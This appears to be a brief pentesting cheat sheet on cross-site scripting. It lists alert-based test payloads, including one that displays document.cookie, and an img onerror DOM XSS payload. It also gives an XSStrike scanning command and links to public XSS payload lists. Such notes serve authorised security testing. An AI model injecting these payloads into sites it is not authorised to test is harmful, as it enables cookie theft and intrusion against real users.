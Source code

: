 # XSS
## Testing for XSS

```javascript
<script>alert(window.origin)</script>
```
```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
```javascript
<img src="" onerror=alert(document.cookie)>
```
## Automated Discovery
```zsh
python3 xsstrike.py -u "http://<IP:PORT>/<page>.php?<param>=<value>" 
```

## XSS Payloads

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list
